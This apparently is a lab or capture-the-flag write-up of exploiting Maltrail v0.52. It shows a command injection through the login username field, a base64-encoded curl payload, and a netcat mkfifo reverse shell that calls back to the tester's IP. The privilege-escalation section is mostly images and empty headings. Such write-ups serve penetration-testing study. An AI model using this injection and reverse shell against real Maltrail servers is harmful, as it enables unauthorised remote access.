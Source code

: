 #Pwned! 
```IP

```
# Enumeration

## HTTP 80
apache 2.4.52
## HTTP 8338
maltrail v 0.52
# Exploitation

we search for mailtrail vulnerabilities, and we find command injection in the username parameter 

```
echo 'ping -c 5 192.168.45.176' | base64
```
```
curl 'http://192.168.140.32:8338/login' --data 'username=;`echo+\"cGluZyAtYyA1IDE5Mi4xNjguNDUuMTc2Cg==\"+|+base64+-d+|+sh`'
```
we can successfully ping ourselves
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204103745.png?raw=true)
After some trial and error, I got a revshell the following mkfifo payload set on local port 80:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc  192.168.45.176 80 >/tmp/f
```

```
curl 'http://192.168.140.32:8338/login' --data 'username=;`echo+\"cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAgMTkyLjE2OC40NS4xNzYgODAgPi90bXAvZg==\"+|+base64+-d+|+sh`'
```

# PrivEsc

## Manual
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204110845.png?raw=true)

we find the following file

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204114500.png?raw=true)
with pspy64 we can see that it is running as root
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204114717.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204115148.png?raw=true)

we receive the revshell
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204115217.png?raw=true)


## Automated

### Peass
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241204114628.png?raw=true)
### Mimikatz

# Lateral Movement

